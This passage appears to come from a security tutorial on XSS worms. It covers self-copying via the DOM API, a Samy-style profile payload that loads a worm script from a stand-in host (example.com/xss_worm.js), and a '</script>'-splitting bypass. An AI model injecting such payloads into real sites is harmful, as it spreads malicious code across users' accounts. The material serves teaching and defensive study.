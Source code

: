   * In this type of attack, we can use JavaScript code with the DOM API to extract the content of specific DOM nodes and include it in a malicious payload.

  * For example, if a malicious script already embedded in the page resides within a `<script>` tag with a specific `id`, you can use a DOM API like `document.getElementById("worm").innerHTML` to extract the source code of that script. The extracted code can then be re-injected into other user input fields or sent to the server via AJAX requests to trigger a stored XSS.

  * This method doesn't involve completely writing new code; instead, it **leverages the DOM API to "elegantly" retrieve specific content from the existing page (including the malicious code you inserted) and then deliver it elsewhere.**

    ```javascript
    <script id="worm">
    // Use DOM API to get a copy of the content in a DOM node.
    var strCode = document.getElementById("worm").innerHTML;

    // Displays the tag content (for demonstration purposes)
    alert(strCode);

    // In a real attack, strCode would be used to create new malicious content
    // and submit it to the server (e.g., via AJAX POST request to update profile)
    // or inject into other parts of the DOM.
    </script>
    ```

#### Link Approach

This method involves self-replication by loading a malicious JavaScript file externally.

  * The attacker hosts a `.js` file containing the malicious script on their own server (e.g., `http://example.com/xss_worm.js`).

  * The attacker then uses a `<script>` tag that dynamically inserts this `.js` file via its `src` attribute as an XSS payload.

  * In the example below, the `wormCode` variable contains an encoded `script` tag string. When this string is injected into a web page, the browser loads and executes the `xss_worm.js` file. This `.js` file can then contain logic to further propagate itself to other users.

    ```javascript
    var wormCode = encodeURIComponent(
        "<script type=\"text/javascript\" "
        + "src=\"http://example.com/xss_worm.js\">"
        + "</" + "script>");

    // This is an example of setting content for a description field on a specific website.
    var desc="&description=SAMY is MY HERO" + wormCode;

    // (the rest of the code would be similar to how malicious input is submitted)
    // For example, an AJAX request to update a user's profile with this 'desc' payload.
    // ...
    ```

  * The reason for separating the `</script>` part into `</" + "script>` in the code above is that **some browsers, like Firefox, might parse `</script>` as a single token and unintentionally close the script tag prematurely.** This is an important bypass technique that can vary depending on the browser's parsing method.
